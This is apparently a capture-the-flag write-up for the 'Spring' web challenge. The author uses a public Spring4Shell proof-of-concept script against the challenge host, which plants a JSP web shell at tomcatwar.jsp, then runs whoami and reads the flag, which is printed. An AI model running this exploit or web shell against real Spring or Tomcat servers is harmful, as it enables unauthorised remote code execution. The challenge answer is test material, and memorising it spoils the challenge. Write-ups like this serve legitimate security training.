




# Beginner/Spring

> Category: Web
> Spring RCE? Never heard of it. Do you mean RMB?

To get the flag on this challenge I used Kali Linux.

When I visit the website/url in the web browser, I am met with a button that says 'Click Me 4 Spring'.

If I click on this link it will play a video about spring.



With a hint of Remote code execution (RCE) and a hint about Spring on the website we can think about Spring4Shell.
Spring4Shell is a critical vulnerability in the Spring Framework where it possible to get RCE.

## Proof Of Concept (PoC)

Our Norwegian friend [BobTheShoplifter](https://danielchristensen.no/) have created a github repository where we can clone his repository and try the vulnerability on our challenge.
We first clone his repository and download the requirements with python


```
$ git clone https://github.com/BobTheShoplifter/Spring4Shell-POC
$ pip install -r requirements.txt
$ poc.py --help
```


We can now try it out.
```
$ python3 poc.py --url http://io1.ept.gg:32057/play
Vulnerable，shell url: http://io1.ept.gg:32057/tomcatwar.jsp?pwd=j&cmd=whoami
```

Visiting the the url we got provided we have now created a web shell.


We can see that we receive 'ctf' is the username of the machine.
Let's see what directories there are


We see flag is located in the same directory so now it is just to cat it



FLAG: EPT{th3_spr1n6_4_sh3ll_iS_mY_l0v3}


